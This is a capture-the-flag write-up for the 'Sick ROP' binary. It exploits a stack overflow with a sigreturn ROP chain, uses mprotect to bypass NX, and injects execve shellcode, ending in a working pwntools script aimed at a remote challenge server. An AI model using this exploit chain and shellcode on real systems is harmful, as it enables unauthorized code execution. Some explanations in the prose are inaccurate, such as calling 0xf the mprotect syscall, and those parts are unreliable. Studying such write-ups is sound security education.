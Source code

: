 # Sick ROP 

## 1. Information gathering
Bin doesn't seem to be complicated, it only has its _start and vuln() function with read and write helpers.

![objdump](pix/objdump.PNG)

Also NX there is enabled..  
![checksec](pix/checksec.PNG)  
So we cannot execute own shellcode from stack.  
  

By running binary with GDB we can see that there is overflow which will cause SEG fault  
![segfault](pix/seg_fault.PNG)  

With pattern create 100/offset we see that overflow occurs after 40b and something to notice: RAX holds exactly our 100 + \n length (0x65).  
Therefore we are able to control RSB (stack pointer) and RAX (return value) so may be able to do some rop chaining here.  

## 2. Testing theory 
Using pwntools with python, we can write code to test if we are able to control RIP by setting offset + vuln function address + new RIP:  
```
from pwn import *
p = process(['gdb-peda', 'sick_rop'])

offset = b'A'*40
vuln_addr = p64(0x40102e)
p.interactive()
p.sendline(offset + vuln_addr + b"BBBB") # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"AAAAA")
p.recv(timeout=1)
p.interactive()
```

![rip](pix/rip_controlled.PNG)  
Here we can see that totally can control RIP with this.  
But to be able to execute shellcode with rop chaining, we need 2 main gadgets: sigreturn syscall and syscall return.  

![gadgets](pix/gadgets.PNG)  
As we seen before, we were able to control RAX value which is needed to call sigreturn syscall:
```
sigreturn syscall gadget: rax=0xf; syscall
```  
Here we see syscall; ret; address 0x401014  
By changing our code to:

```
from pwn import *
p = process(['gdb-peda', 'sick_rop'])

offset = b'A'*40
vuln_addr = p64(0x40102e)
p.interactive()
p.sendline(offset + vuln_addr + b"BBBB") # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"A"*14)
p.recv(timeout=1)
p.interactive()
```  
We can see that our RAX value is now indeed 0xf (mtproctect syscall).


## 3. Building ROP chain

Next for building SigreturnFrame, we need couple more things: base address of bin and vuln() functions PTR, base address can be founded with GDB: vmmap  
![baseaddr](pix/base_addr.PNG)  
and vuln functions pointer with gdb find VULN_ADDR  
![vulnptr](pix/vuln_ptr.PNG)  

Now we can build our mtprotect call:  
```
from pwn import *
p = process(['gdb-peda', './sick_rop'])
context.arch = "amd64"

offset = b'A'*40
vuln_addr = p64(0x40102e)
vuln_ptr_addr = 0x4010d8
base_addr = 0x0000000000400000
syscall = p64(0x401014)

sigFrame = SigreturnFrame()
sigFrame.rax = 0xa # mtprotect syscall == 10
sigFrame.rdi = base_addr # Programs base address 0x0000000000400000
sigFrame.rsi = 0x4000 # Length
sigFrame.rdx = 7 # permissions R-W-X
sigFrame.rsp = vuln_ptr_addr #pointer addr to vuln function
sigFrame.rip = 0x401014 # syscall addr

p.interactive()
p.sendline(offset + vuln_addr + syscall + bytes(sigFrame)) # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"A"*14)
p.recv(timeout=1)
p.interactive()
```  
![run](pix/rwxp.PNG)  
Here we can now see that NX is bypassed! 
We also passed some A chars which we can see has ptr as: 0x4010b8 where our shellcode will be placed!  
Next we need shellcode, I will use shellstroms 23B shellcode for this, next we just build this all up:  
```
from pwn import *
#p = process(['gdb-peda','./sick_rop'])
p = remote("159.65.27.79",32030)
context.arch = "amd64"

# shellcode, length 23B
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

offset = b'A'*40
vuln_addr = p64(0x40102e)
vuln_ptr_addr = 0x4010d8
base_addr = 0x0000000000400000
syscall = p64(0x401014)

sigFrame = SigreturnFrame()
sigFrame.rax = 0xa # mtprotect syscall == 10
sigFrame.rdi = base_addr # Programs base address 0x0000000000400000
sigFrame.rsi = 0x4000 # Length
sigFrame.rdx = 7 # permissions R-W-X
sigFrame.rsp = vuln_ptr_addr #pointer addr to vuln function
sigFrame.rip = 0x401014 # syscall addr

p.sendline(offset + vuln_addr + syscall + bytes(sigFrame)) # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"A"*14)
p.recv(timeout=1)

p.sendline(shellcode + b'\x90' * (40-len(shellcode)) + p64(0x4010b8))
p.recv()
p.interactive()
```

![flag](pix/flag.PNG)  
And there we have it!


